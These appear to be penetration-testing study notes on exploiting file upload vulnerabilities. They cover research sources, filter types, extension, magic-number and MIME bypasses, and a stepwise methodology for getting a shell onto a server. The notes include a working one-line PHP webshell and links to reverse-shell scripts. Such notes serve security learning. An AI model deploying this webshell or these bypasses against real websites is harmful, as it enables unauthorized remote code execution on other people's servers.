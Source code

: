 # Exploit Vulnerabilities 

## Automated and Manual Vulnerability Research 
* exploit DB  
* NVD 
* Rapid7 
* github  
    - search "poc" "vulnerability" "cve" 
* Searchsploit 



-------------------------------------
open redirect   
xss  
broken access control  
--------------------------------------


# Section 1: Web Vulnerabilities
## 1. Upload Vulnerabilities  
### Overwriting Existing Files
The Key: upload the same file name 


### RCE 
enumeration upload point-->gobuster

#### php webshell
```php
<?php
    echo system($_GET["cmd"]);
?>
```
#### reverse/bind shells 
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

### Filtering 
- Extension Validation
- File Type Filtering 
    - [MIME validation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types)
    - Magic Number validation  
        at the very beginning of the file content
- File Length Filtering
- File Name Filtering 
- File Content Filtering
- File Content Filtering 
### Bypassing Client-Side Filtering
- Turn off Javascript 
- Intercept and modify the incoming page (burp)
- Intercept and modify the file upload
- curl
### Bypassing Server-Side Filtering: File Extensions

- `.phtml .php3 .php4 .php5 .php7 .phps .php-s .pht .phar .pht .phps`  
- `.jpg.php`

### Bypassing Server-Side Filtering: Magic Numbers   
[List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

### Methodology
1. Recon   
goal: *what languages and frameworks the web use*
    - manual
    - Wappalyzer
    - burp reponse header 
    - `httpx -td -u uber.com`
2. search upload point 
    - manual  `site:example.com "choose file"`
    - code review determine if there are any client-side filters to bypass
3. upload a innocent file  
    goal: determine how our file is accessed
    >can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? 
    if not obvious, try `gobuster`  `-x php,txt,html` 
4. upload shell   
    bypass client-filter, research error message 
5. bypass server filter   
    - upload arbitrary file(e.g. testingimage.invalidfileextension), success-->blacklist, fail--->whitelist  
    - upload innocent file, change magic number to which be filtered. fails-->magic mumber based filter
    - upload innocent file, using burp, change the MIME type to which be filtered. fails-->MIME based filter 
    - Enumerating file length. uploading progressively bigger files, hit the filter


    


